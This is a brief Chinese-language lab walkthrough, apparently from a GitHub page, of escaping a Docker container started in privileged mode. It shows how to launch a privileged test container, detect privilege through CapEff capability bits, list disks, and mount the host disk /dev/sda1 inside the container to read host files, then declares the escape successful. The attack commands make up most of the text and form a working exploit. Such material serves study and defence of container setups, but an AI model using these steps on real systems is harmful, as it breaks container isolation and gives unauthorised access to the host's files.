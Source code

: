 配置不当--特权模式

运维人员在启动容器得时候，是以root权限启动得就造成特权逃逸

特权模式通常是指以root用户或具有特殊权限的用户身份运行的进程
```shell
启动靶场：docker run --rm --privileged=true -it alpine
```
 

检测\[只要输出； 其中一段就是特权\]

```shell
cat /proc/self/status \| grep CapEff \| grep -E '0000003fffffffff\|0000001fffffffff'
```

![image-20231202152343259](./assets/image-20231202152343259.png)

 
```shell
fdisk -l 查看目录
```

![image-20231202152346820](./assets/image-20231202152346820.png)
```shell

特权逃逸：mkdir /test1 && mount /dev/sda1 /test1

判断结果：cd /test1/ && ls
```
 

![image-20231202152350280](./assets/image-20231202152350280.png)

 

逃逸成功

接下来看逃逸成功之后的操作---docker
